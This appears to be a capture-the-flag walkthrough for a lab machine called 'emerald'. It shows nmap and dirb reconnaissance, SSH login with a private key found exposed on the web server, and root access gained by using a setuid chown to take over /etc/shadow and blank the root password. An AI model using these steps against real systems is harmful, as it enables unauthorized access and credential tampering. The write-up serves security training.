

# 🖥 Walkthrough | emerald

## 1. Reconnaissance

An `nmap` scan reveals the following exposed services:

```bash
# nmap -A -p- 192.168.60.4
[..]
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 44:93:bd:32:c1:fe:6b:8f:8a:30:5f:c9:ea:21:44:5f (RSA)
|   256 d4:32:2c:4f:31:4d:42:46:e9:82:41:ca:87:2d:ff:00 (ECDSA)
|_  256 d2:f9:90:26:44:fd:34:2e:97:19:6e:d9:f0:1c:dc:64 (ED25519)
8080/tcp open  http    nginx 1.18.0
|_http-title: About Me
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0
[..]
```

The output suggests that there is an SSH server on port 22 and a nginx web server on port 8080. The nginx website appears to only contain static contents:


One part of reconnaissance is to check for hidden contents. This includes web directories which are not listed publicly, i.e. they need to be discovered. This process is called directory busting.

In this step, we use the tool `dirb` for directory busting. We need to provide an URL as well as a *wordlist* (a text file containing words that will be checked as directory or file names).

```bash
# dirb http://192.168.60.4:8080/ /usr/share/wordlists/dirb/big.txt -r

[..]                                                        
---- Scanning URL: http://192.168.60.4:8080/ ----
==> DIRECTORY: http://192.168.60.4:8080/assets/
==> DIRECTORY: http://192.168.60.4:8080/drive/
[..]
```

The output above shows that there appear to be two directories: `assets` and `drive`. Opening the `drive` directory in a web browser shows some interesting files:



The files `id_rsa` and `id_rsa.pub` appear to be an RSA key pair. Possibly for SSH?

## 2. SSH access

The `id_rsa.pub` file contains the string `clemence@emerald`. So it might be worth trying to log in as user `clemence` via SSH. After downloading the private key `id_rsa`, we can issue the following command to establish an SSH session:

```bash
ssh -i id_rsa clemence@192.168.60.4 
```

After confirming the fingerprint, we are successfully logged in as `clemence` and can retrieve the first token:

```bash
clemence@emerald:~$ cat token
This one's for you: EMERALD{d1r3ct0ry_bust1ng_g03s_brrrrr}
```

## 3. Privilege escalation

One way to elevate privileges are so-called `setuid` binaries. 

```bash
clemence@emerald:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chown
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

What is interesting is that the `chown` executable has the `setuid` bit set. Since it is owned by root, we can use it to change the ownership of arbitrary files and folders:

```bash
clemence@emerald:~$ ls -al /usr/bin/chown
-rwsr-xr-x 1 root root 72672 Sep 24  2020 /usr/bin/chown
```

There are different ways to get root access. Our approach is the following:

1. Change ownership of `/etc/shadow` so that we can write to it:
   ```
   clemence@emerald:~$ chown clemence /etc/shadow
   ```
2. Edit `/etc/shadow` in an editor of our choice and set the root password to an empty string. To do this, change the first line to:
   ```
   root::0:[...]
   ```
3. Switch to the root user and read the second token:
   ```
   clemence@emerald:~$ su root
   root@emerald:/home/clemence# id
   uid=0(root) gid=0(root) groups=0(root)
   root@emerald:/home/clemence# cat /root/token
   Here's a little secret for you: EMERALD{setu1d_0n_wr0ng_b1n4ries_is_b4d}
   ```

And that's it. We're done!
